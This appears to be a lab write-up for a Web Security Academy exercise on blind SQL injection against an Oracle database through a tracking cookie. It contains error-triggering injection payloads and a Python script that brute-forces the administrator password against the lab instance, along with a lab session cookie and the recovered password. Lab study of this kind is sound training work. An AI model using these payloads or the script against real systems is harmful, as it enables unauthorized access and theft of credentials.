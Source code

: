 # Lab 10: Blind SQL injection with conditional errors

## Description

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Solution

The goal of the exercise is to exploit a SQL-injectable cookie to read the `administrator` account's password and use it to login.

The vulnerable cookie is the `TrackingId` cookie, which is presumably used in a query that looks like the following.

```sql
SELECT TrackingId FROM TrackingIds WHERE TrackingId = '$TRACKING_ID'
```

As the description says, this web application doesn't return the results of the SQL query and the application doesn't respond any differently based on whether the query returns any rows. However, if the SQL query causes an error, the application will return an error. Based on this description, the backend server code probably looks something like:

```python
tracking_id = request.cookies['TrackingId']
sql_query = f"SELECT TrackingId FROM TrackingIds WHERE TrackingId = '{tracking_id}'"
try:
	rows = db.execute(sql_query)
except SQLError:
	render("Error Page")  # In the case of a SQL error, render an error page
else:
	if len(rows) == 1:
		do_some_background_tracking(rows[0].TrackingId)
	render("Home Page")  # If no SQL error, render the home page
```

The only feedback the web application will provide us is whether or not our SQL query produces an error. However, feedback is feedback. Any feedback can be used to interrogate the database and differentiate between true and false conditions.

Before we can know exactly how to format our injected SQL, we need to determine the database type. We can quickly enumerate the number of columns in the original SQL query to determine that there is 2 and that they are both of type string. We then iterate through version queries for the major database platforms and note which cause the web application to throw errors and which don't. Oracle's `SELECT banner FROM v$version` is the only query that doesn't cause the web application to throw an error, indicating that the target database is Oracle.

With that in mind, we'll inject the following SQL query to interrogate the database and differentiate between true and false conditions.

```sql
SELECT
CASE
	WHEN ($CONDITION)
		THEN TO_CHAR(1/0)
	ELSE 'a'
END
FROM users
WHERE username = 'administrator'
```

First, we'll iteratively use this SQL query template to determine the number of characters in `administrator's` password.

```sql
SELECT
CASE
	WHEN (LENGTH(password) = $N)
		THEN TO_CHAR(1/0)
	ELSE 'a'
END
FROM users
WHERE username = 'administrator'
```

which results in the following SQL query:

```sql
SELECT TrackingId FROM TrackingIds WHERE TrackingId = 'mvdV0sPOiMwwSEVe' AND (SELECT CASE WHEN (LENGTH(password) > $N THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username = 'administrator') = 'a'--'
```

Using this technique, we determine that `administrator`'s password is 20 characters long. With the length in hand, we'll iteratively reuse the above SQL query template to brute force `administrator`'s password.

```sql
SELECT
CASE
	WHEN (SUBSTR(password, $INDEX, 1) = '$CHARACTER')
		THEN TO_CHAR(1/0)
	ELSE 'a'
END
FROM users
WHERE username = 'administrator'
```

which results in the following SQL query:

```sql
SELECT TrackingId FROM TrackingIds WHERE TrackingId = 'mvdV0sPOiMwwSEVe' AND (SELECT CASE WHEN (SUBSTR(password, $INDEX, 1) = '$CHARACTER') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username = 'administrator') = 'a'--'
```

We automate the process of iterating through character indices and characters using the following Python script.

```python
import requests
import string

with open("password.txt", "a") as f:
    for i in range(1, 21):
        for c in string.printable:
            response = requests.get(
                "https://ac881f951ec04ffd80a200f2000b005b.web-security-academy.net/filter?category=Pets",
                cookies={
                    "TrackingId": f"mvdV0sPOiMwwSEVe' AND (SELECT CASE WHEN (SUBSTR(password, {i}, 1) = '{c}') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username = 'administrator') = 'a'--",
                    "session": "avzTVjCw53jVthSWvmSwMvVChFrXiMoU"
                }
            )
            if response.status_code == 500:
                f.write(c)
                f.flush()
                break
            print(f"[*] Progress: character index {i}, character {c}", end="\r")

    f.write("\n")
```

We determine that `administrator`'s password is  `u3w7761huw45vmxea2pj`.
